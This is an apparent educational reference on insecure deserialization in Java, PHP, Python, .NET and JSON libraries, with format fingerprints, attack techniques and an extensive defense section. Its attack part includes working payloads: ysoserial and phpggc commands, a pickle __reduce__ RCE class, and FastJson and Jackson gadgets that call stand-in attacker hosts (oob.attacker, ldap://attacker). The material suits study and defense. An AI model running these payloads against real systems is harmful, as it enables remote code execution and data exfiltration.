

# Insecure Deserialization

> Serialization flattens a live object (its class identity, fields, and private state) into a byte stream; deserialization rebuilds that object. Native deserializers were designed to faithfully reconstruct arbitrary types, so they instantiate whatever class the bytes name and run that class's reconstruction callbacks (`readObject`, `__wakeup`, `__destruct`, `__reduce__`) before the application ever inspects the result. The root cause is not a specific gadget: it is that the deserializer treats the byte stream as trusted, letting an attacker choose which classes get built and which lifecycle code runs. As PortSwigger puts it, many deserialization attacks complete before deserialization finishes, which is why even strongly typed languages are exploitable. The correct mental frame: user-controlled bytes = attacker-controlled control flow across the entire classpath.

## How it works

Serialization has to persist type, not just data. That is the whole problem. A JSON object `{"admin":true}` is data; a Java serialized `User` carries the string `User`, the field layout, and instructions that cause the JVM to allocate and populate a real `User` instance. To support graphs, cyclic references, and custom persistence, the native formats invoke per-class hooks during reconstruction. Those hooks are ordinary application/library code running with attacker-supplied field values.

Recognizing the format is the first skill. Each language leaves a fingerprint.

```
# Java (java.io.ObjectOutputStream): magic 0xACED, version 0x0005
hex:    ac ed 00 05 73 72 ...          # "sr" = TC_OBJECT, TC_CLASSDESC
base64: rO0AB...                        # rO0 is the giveaway
http:   Content-Type: application/x-java-serialized-object

# PHP (serialize()): human-readable, type letter + length
O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}
# O = object, s = string, i = int, b = bool, a = array, N = null

# Python pickle: opcode stream; protocol 0 is ASCII and ends with "." (STOP)
# base64 of protocol 4/5 payloads commonly starts with gASV / gAWV

# .NET BinaryFormatter / LosFormatter / ObjectStateFormatter
base64: AAEAAAD/////...                 # 00 01 00 00 00 FF FF FF FF header
# ASP.NET Web Forms __VIEWSTATE is base64 and often starts /wEP...
```

Where the bytes live matters as much as their shape: cookies and hidden fields (`__VIEWSTATE`, session blobs), custom headers and `Authorization`, message-queue bodies (JMS, AMQP, RabbitMQ), caches (Redis/Memcached storing serialized objects), RMI/JMX endpoints, and any `remember-me` token. Burp Scanner (Pro) flags HTTP messages that look like serialized objects.

The lifecycle hooks are the ignition. In Java, a `Serializable` class may declare a private `readObject(ObjectInputStream)`; `ObjectInputStream.readObject()` calls it as an implicit constructor during deserialization. In PHP, `unserialize()` triggers `__wakeup()` on rebuild and `__destruct()` when the object is later garbage-collected. In Python, `pickle` executes whatever the object's `__reduce__` returns as a `(callable, args)` pair. .NET runs `[OnDeserializing]`/`[OnDeserialized]` callbacks and `ISerializable` constructors. Ruby `Marshal.load` rebuilds arbitrary objects and can trigger methods during coercion.



```java
// This method, declared exactly like this, runs automatically on deserialize.
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
    in.defaultReadObject();
    // any code here executes with attacker-controlled field values
}
```

## Attack techniques

1. Attribute tampering and object injection (the entry step). Flip a value or inject an unexpected class. The classic PHP example: a session cookie holding `O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}`. Change `b:0` to `b:1`, re-encode, and if the app does `if ($user->isAdmin === true)` against the deserialized object with no integrity check, that is privilege escalation. When editing, you must fix the length prefixes and type tags or the blob corrupts and will not deserialize.

2. PHP loose-comparison type juggling. Because deserialization preserves type, you can supply an integer where a string is expected and abuse `==`.

```php
$login = unserialize($_COOKIE['data']);
if ($login['password'] == $password) { /* authenticated */ }
```

Set `password` to the integer `0`. On PHP 7.x, `0 == "any non-numeric string"` is `true`, so the check passes without knowing the real password. WHY: PHP 7 coerces the string to `0` for the comparison; you can only do this because the serialized blob carried the integer type. Note (senior detail): PHP 8 changed this, so `0 == "Example"` is now `false` and this specific bypass is dead there, but `5 == "5 of x"` still holds in PHP 8.

3. Abusing existing application functionality. If a magic method or later code does something dangerous with a field, point the field at your target. Example from PortSwigger: a delete-account flow removes `$user->image_location`; inject that field set to `/var/www/config.php` (or any path) and account deletion becomes arbitrary file delete.

4. Gadget chains and POP (Property-Oriented Programming). The high-severity technique. You do not write new code; you supply data that flows through methods that already exist in the app or its libraries. A chain has a kick-off gadget (a magic method invoked on deserialize), link gadgets (each calls the next based on field values), and a sink gadget (does the dangerous thing: reflection, process exec, file write, secondary deserialization). In PHP the chain is built purely from properties whose values steer `__destruct`/`__wakeup`/`__toString` into a sink, hence "property-oriented programming."

5. Pre-built Java chains with ysoserial (Chris Frohoff / Gabriel Lawrence, "Marshalling Pickles," AppSecCali 2015). ysoserial ships chains keyed to library versions on the classpath.

```
# Commons-Collections RCE: InvokerTransformer reflectively calls Runtime.exec
java -jar ysoserial.jar CommonsCollections1 'curl http://oob.attacker/$(id|base64)' | base64

# Java 16+ needs module opens (per PortSwigger):
java --add-opens=java.base/java.util=ALL-UNNAMED \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     -jar ysoserial.jar CommonsCollections6 'nslookup oob.attacker'
```

The canonical link chain is `AnnotationInvocationHandler` -> `LazyMap.get` -> a `ChainedTransformer` of `ConstantTransformer` + `InvokerTransformer` that ends in `Runtime.getRuntime().exec()`. This was the basis of the November 2015 FoxGlove Security disclosure (Stephen Breen, "What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common?") that broke WebLogic (CVE-2015-4852), Jenkins (CVE-2015-8103), and others. The vulnerable artifact was Apache Commons-Collections sitting on the classpath, not code the app authors wrote.

6. Detection/universal chains (no vulnerable library required). Two ysoserial payloads confirm blind deserialization on any modern JVM:

```
java -jar ysoserial.jar URLDNS   http://<id>.oob.attacker/   | base64   # forces a DNS lookup
java -jar ysoserial.jar JRMPClient 10.0.0.5                    | base64   # forces a TCP connect
```

`URLDNS` triggers a DNS resolution of your Collaborator domain and does not depend on any specific gadget library, so a callback proves the byte stream was deserialized. `JRMPClient` opens a TCP connection to a raw IP: send one payload pointing at a local address and one at a firewalled external address; if the local one returns fast and the external one hangs, the timing differential confirms deserialization even when DNS is blocked. This is the confirm-before-RCE workflow.

7. PHP chains with phpggc (PHP Generic Gadget Chains, ambionics). Equivalent to ysoserial for frameworks like Laravel, Symfony, Monolog, WordPress, Drupal.

```
phpggc Monolog/RCE1 system 'id'                 # emit a POP chain payload
phpggc -p phar Monolog/RCE1 system id -o evil.phar   # wrap it in a PHAR for the trick below
```

8. PHAR deserialization (no visible `unserialize()`). Sam Thomas's technique (BlackHat USA 2018, featured in PortSwigger's Top 10 Web Hacking Techniques of 2018). PHAR archive manifests store serialized metadata that PHP deserializes implicitly whenever a filesystem function operates on a `phar://` stream, including "safe-looking" ones like `file_exists()`, `is_dir()`, `filesize()`, `getimagesize()`. Upload a polyglot that is a valid JPEG and a valid PHAR (extension is not checked when reading a stream), then coerce the app into `file_exists("phar://uploads/avatar.jpg")`. `__wakeup`/`__destruct` fire and the POP chain runs.

9. JSON/XML as a deserialization sink via polymorphic typing. "Safe" formats become RCE when the library lets the document choose the class (Alvaro Munoz and Oleksandr Mirosh, "Friday the 13th: Attacking JSON," 2017).

```json
// Jackson with default typing / @JsonTypeInfo enabled: [type, value] tuples
["org.springframework.context.support.ClassPathXmlApplicationContext",
 "http://attacker/spel.xml"]

// FastJson autotype (<= 1.2.68 by default): @type instantiates arbitrary classes
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://attacker/x","autoCommit":true}

// Json.NET / .NET with TypeNameHandling != None: $type controls the class
{"$type":"System.Windows.Data.ObjectDataProvider, PresentationFramework", ...}
```

FastJson autotype reached RCE via `JdbcRowSetImpl` performing a JNDI lookup to an attacker LDAP server (CVE-2017-18349). jackson-databind polymorphic deserialization produced a long CVE series (for example CVE-2017-7525) as new "deserialization gadget" classes with JNDI/JdbcRowSet-style sinks were found. Moritz Bechler's marshalsec paper and tool ("Java Unmarshaller Security") systematized these across Jackson, FastJson, and others. SnakeYAML's default constructor deserializes arbitrary types from `!!javax...`/`!!com...` tags (CVE-2022-1471); its `SafeConstructor` disables it.

10. Python and Ruby (deserialization is code by design). Pickle needs no gadget hunting; `__reduce__` returns a callable and args that pickle will invoke.

```python
import pickle, os, base64
class RCE:
    def __reduce__(self):
        return (os.system, ("curl http://oob.attacker/$(id)",))
payload = base64.b64encode(pickle.dumps(RCE()))   # any pickle.loads() on this = RCE
```

`yaml.load(untrusted)` (unsafe loader) is equivalent: `!!python/object/apply:os.system ["id"]`. In Ruby, `Marshal.load` on attacker bytes is exploitable; Luke Jahnke (elttam) published a universal RCE gadget chain for stock Ruby that needs no third-party gems. Node's `node-serialize` executes an IIFE-tagged function on `unserialize()` via the `_$$ND_FUNC$$_` marker (CVE-2017-5941).

11. .NET formatters and ViewState. `BinaryFormatter`, `LosFormatter`, `ObjectStateFormatter`, `NetDataContractSerializer`, and `SoapFormatter` embed .NET type names; ysoserial.net produces chains (TypeConfuseDelegate, ObjectDataProvider, etc.). ASP.NET `__VIEWSTATE` is `ObjectStateFormatter` output; if MAC validation is disabled or the `machineKey` (validationKey/decryptionKey) leaks or is a known default, an attacker forges a ViewState that deserializes to RCE. Microsoft Exchange shipped a static `machineKey`, making CVE-2020-0688 a mass-exploited ViewState RCE. Telerik UI's `RadAsyncUpload` deserialized attacker data (CVE-2019-18935). Microsoft's guidance: `BinaryFormatter` is dangerous and cannot be secured.

Blind/OOB across all of the above: when no output returns, use DNS/HTTP callbacks (URLDNS, phpggc with an OOB command, pickle calling `curl`), timing (JRMPClient), or second-order triggers (blob is stored and deserialized later by a worker). Confirmation is a network interaction or a measurable delay, not a returned response body.

## Defense

1. Do not deserialize untrusted data with a native or polymorphic deserializer. This is the only real fix; everything else is defense-in-depth. PortSwigger and OWASP both state it is effectively impossible to securely deserialize untrusted input with these mechanisms because you cannot enumerate every gadget across transitive dependencies. If users do not hand you serialized objects, the class of bug disappears.

2. Use a pure data format with type resolution disabled. Move to JSON/XML mapped to explicit DTOs, and turn off any feature that lets the document pick the class:
   - Jackson: never call `enableDefaultTyping()`; avoid `@JsonTypeInfo` on untrusted input; if polymorphism is required, use `activateDefaultTyping` with a strict `PolymorphicTypeValidator` allowlist. Jackson is safe by default as long as polymorphic typing is off.
   - FastJson: enable `safeMode` (disables autotype entirely); prefer fastjson2 with autotype off.
   - Json.NET: keep `TypeNameHandling = TypeNameHandling.None`; if you must round-trip types, add a custom `SerializationBinder` allowlist. Do not pair `JavaScriptSerializer` with a `JavaScriptTypeResolver`.
   - Python: `yaml.safe_load`, never `pickle`/`jsonpickle` on untrusted data.
   - .NET: `DataContractSerializer`/`XmlSerializer` with a fixed, known type, never a type chosen from the data; avoid `XMLDecoder` in Java and `XMLDecoder`-equivalents.
   - SnakeYAML `SafeConstructor`; Kryo with class registration on; XStream >= 1.4.17 with allowlist intact.

3. Integrity-protect any serialized state you must send through the client. Sign with HMAC (or authenticated encryption) and verify before deserializing, so tampered blobs are rejected up front. This is exactly why ASP.NET ViewState requires MAC/`machineKey` protection. Critical ordering point: the check must happen before deserialization, because gadget chains fire during the process. Encoding or plain base64 is not integrity; encryption without a MAC can still be malleable.

4. If native deserialization is unavoidable, allowlist classes with a look-ahead filter.
   - Java: `ObjectInputFilter` (JEP 290, built into the JVM) configured with a strict allowlist and depth/size limits; or subclass `ObjectInputStream` and override `resolveClass()` to permit only expected types (OWASP's `LookAheadObjectInputStream` pattern). Libraries: SerialKiller, Apache Commons IO `ValidatingObjectInputStream`, NotSoSerial. For code you cannot change, apply a JVM agent (Contrast rO0) to harden every `ObjectInputStream`.
   - .NET: a custom `SerializationBinder` that returns only expected types (still risky, since some allowed native types carry dangerous properties).
   - Prefer allowlists to denylists; denylists lose to the next gadget class.

5. Reduce gadget surface and patch. Keep dependencies minimal and current; remove old Commons-Collections, vulnerable jackson-databind, pre-safemode FastJson, SnakeYAML, etc. Presence on the classpath is the attack surface even if your code never calls the class. Tools: Serianalyzer (static bytecode analysis), gadget scanners, and the Java Deserialization Scanner Burp extension.

6. Harden data model and runtime. Mark sensitive fields `transient` (Java) so they are never serialized/clobbered; declare a `final readObject()` that throws on domain objects that must never be deserialized. Run deserializing components with least privilege and constrained network egress so a successful chain cannot reach JNDI/LDAP/metadata or exfiltrate.

Reference: OWASP Deserialization Cheat Sheet, OWASP ASVS V5 (Validation, Sanitization and Encoding) requirements on deserializing untrusted data, and the language-specific Java/DotNet Security Cheat Sheets.

## Interview-grade nuances

- "We use JSON, so we are safe" is the most common wrong answer. JSON/XML are safe only when type handling is off. Jackson default typing, FastJson autotype, and Json.NET `TypeNameHandling` turn them into full RCE sinks. Name the config flag, not the format.
- The vulnerability is the deserialization of untrusted input, not the gadget chain. Do not claim you fixed it by removing one gadget or upgrading one library; transitive dependencies and future gadgets (and memory-corruption bugs in the deserializer itself) mean you cannot enumerate them all. Seniors fix the source; juniors play gadget whack-a-mole.
- Validation after deserialization is too late. `if (obj is DangerousType)` runs after the object was constructed and its callbacks already executed. The check must precede deserialization, which in practice means an HMAC/signature gate or not deserializing at all.
- Strong typing does not save you. The attacker's object may be the "wrong" class and throw later, but the kick-off gadget already ran during reconstruction. Java being statically typed is irrelevant to `readObject`-time execution.
- Binary is not obscurity. "It is a binary blob, users cannot tamper with it" is false; ysoserial, Hackvertor, and language scripts make binary as editable as strings.
- Know your detection primitives cold: `rO0`/`ac ed 00 05` (Java), `O:`/`a:` (PHP), `AAEAAAD/////` and `$type` (.NET), `gASV`/trailing `.` (pickle). And the universal confirms: URLDNS for DNS callback, JRMPClient for timing when egress is firewalled.
- IMDS/JNDI linkage: a blind Java deserialization or FastJson autotype that reaches JNDI/LDAP is often the pivot; egress control that blocks LDAP and the cloud metadata endpoint materially caps impact even when a chain fires.
- PHAR is the subtle PHP answer: deserialization without any `unserialize()` in the code, via `phar://` and an innocuous filesystem call on an uploaded polyglot. Interviewers use it to test whether you understand implicit sinks.

## Sources

- PortSwigger Web Security Academy, Insecure deserialization: https://portswigger.net/web-security/deserialization
- PortSwigger Web Security Academy, Exploiting insecure deserialization (magic methods, gadget chains, ysoserial URLDNS/JRMPClient, PHAR): https://portswigger.net/web-security/deserialization/exploiting
- OWASP Deserialization Cheat Sheet (language guidance, library config table, look-ahead ObjectInputStream, .NET gadgets): https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html
- ysoserial (Chris Frohoff), Java gadget-chain payload generator: https://github.com/frohoff/ysoserial
- phpggc (ambionics), PHP Generic Gadget Chains: https://github.com/ambionics/phpggc
- ysoserial.net (.NET payload generator): https://github.com/pwntester/ysoserial.net
- FoxGlove Security (Stephen Breen), the 2015 Java deserialization disclosure: http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
- marshalsec (Moritz Bechler), "Java Unmarshaller Security": https://github.com/mbechler/marshalsec
